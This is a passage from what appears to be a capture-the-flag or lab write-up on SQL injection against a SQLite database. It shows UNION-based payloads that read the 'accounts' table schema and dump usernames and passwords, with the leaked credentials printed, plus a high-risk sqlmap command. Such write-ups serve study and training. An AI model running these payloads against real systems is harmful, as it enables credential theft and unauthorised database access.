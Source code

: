 ```bash
accounts,messages
```


#### Enumerate columns from `accounts`

**Request**

```bash
321 union all select (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='accounts')
```

**Response**

```bash
CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)
```


#### Dump `accounts` table

**Request**

```bash
321 union all select (SELECT group_concat(username||':'||password) FROM accounts)
```

**Response**

```bash
admin:admin,sau:HereIsYourPassWord1431
```


### With Sqlmap

Save the request to `getinfo.req` then run **sqlmap**

```bash
sqlmap -r getinfo.req -p id --level 5 --risk 3
```

![](/assets/obsidian/aaf74e1002c9f8ce156f0bd55c18fa4e.png)
